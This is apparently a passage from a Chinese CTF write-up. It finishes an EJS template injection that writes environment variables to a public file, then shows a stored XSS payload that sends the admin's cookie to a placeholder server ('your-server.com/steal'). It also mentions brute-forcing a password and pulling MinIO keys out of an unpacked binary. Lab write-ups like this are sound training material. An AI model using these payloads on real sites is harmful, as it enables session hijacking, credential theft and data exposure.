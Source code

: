3. **触发模板渲染**
   访问首页 `GET /`，服务器会渲染被篡改的 `mortis.ejs`，执行以下操作：

   - 运行 `env > public/output`，将环境变量写入静态目录下的 `output` 文件。
   - 由于 `<%= name %>` 输出的是 `exec` 返回的 `ChildProcess` 对象（非字符串），页面可能显示 `[object Object]`，但命令已执行。

4. **查看命令结果**
   访问 `http://题目地址/static/output`，自动下载 `public/output` 文件，查看output文件内容，获得flag



### Level 69 MysteryMessageBoard

用户名是shallot，爆破出密码是888888

<img src="C:\Users\user\AppData\Roaming\Typora\typora-user-images\image-20250204174006197.png" alt="image-20250204174006197" style="zoom:67%;" />

留言板xss，payload：

```html
<script>
  fetch('https://your-server.com/steal?cookie=' + encodeURIComponent(document.cookie));
</script>
```

提交后访问/admin触发，然后得到admin的session，用来访问/flag得到flag

<img src="C:\Users\user\AppData\Roaming\Typora\typora-user-images\image-20250204195204260.png" alt="image-20250204195204260" style="zoom: 67%;" />



### Level 25 双面人派对

web服务下载main附件，发现加壳了

<img src="C:\Users\user\AppData\Roaming\Typora\typora-user-images\image-20250205114602492.png" alt="image-20250205114602492" style="zoom:67%;" />

脱壳后用IDA打开，发现有minio，可能是云安全

<img src="C:\Users\user\AppData\Roaming\Typora\typora-user-images\image-20250205114922814.png" alt="image-20250205114922814" style="zoom:67%;" />

找到access_key和secret_key

![image-20250205115252157](C:\Users\user\AppData\Roaming\Typora\typora-user-images\image-20250205115252157.png)

通过mc客户端连接unknow服务

![image-20250205141206833](C:\Users\user\AppData\Roaming\Typora\typora-user-images\image-20250205141206833.png)

<img src="C:\Users\user\AppData\Roaming\Typora\typora-user-images\image-20250205141139631.png" alt="image-20250205141139631" style="zoom:67%;" />

查看hints存储桶

<img src="C:\Users\user\AppData\Roaming\Typora\typora-user-images\image-20250205141249111.png" alt="image-20250205141249111" style="zoom:67%;" />

下载src.zip得到源码
